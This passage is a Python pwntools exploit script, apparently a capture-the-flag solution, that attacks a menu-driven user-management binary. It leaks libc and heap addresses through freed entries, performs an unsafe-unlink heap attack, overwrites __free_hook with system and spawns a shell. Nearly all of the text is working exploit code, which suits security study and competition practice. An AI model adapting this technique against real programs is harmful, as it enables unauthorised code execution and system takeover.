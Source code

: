 ```py
    p.recvuntil("Enter new name: ")
    p.sendline(name)
    p.recvuntil("Enter new password: ")
    p.sendline(passwd)

def show():
    p.recvuntil("Choice: ")
    p.sendline("3")

def delete_user():
    p.recvuntil("Choice: ")
    p.sendline("4")

create_user("rosa", "123")
create_user("rosa1", "123")
create_user("rosa2", "123")
create_user("rosa3", "123")
create_user("/bin/sh", "123")

switch_user(1)
delete_user()
show()
p.recvuntil("Username: ")
libc_leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info("libc leak: " + hex(libc_leak))

switch_user(3)
delete_user()

show()
p.recvuntil("Username: ")
heap_leak = u64(p.recvline().strip().ljust(8, b"\x00"))
log.info("heap leak: " + hex(heap_leak))
heap_base = heap_leak - 0x90
libc_base = libc_leak - 0x3c4b78

create_user("rosa5", "123")
pos = 0x6020C0
switch_user(0)

edit_user(p64(0) + p64(0x81) + p64(pos - 0x18) + p64(pos - 0x10), b"1"*0x40 + p64(0x80)+p64(0x90))

switch_user(5)
delete_user()

# finish unlink
system = libc_base + libc.symbols["system"]
free_hook = libc_base + libc.symbols["__free_hook"]
switch_user(0)
edit_user(p64(0)*3 + p64(0x6020c0) + p64(free_hook), b"a"*0x40)
switch_user(1)
edit_user(p64(system), b"b"*0x40)
switch_user(4)
delete_user()
p.interactive()
```

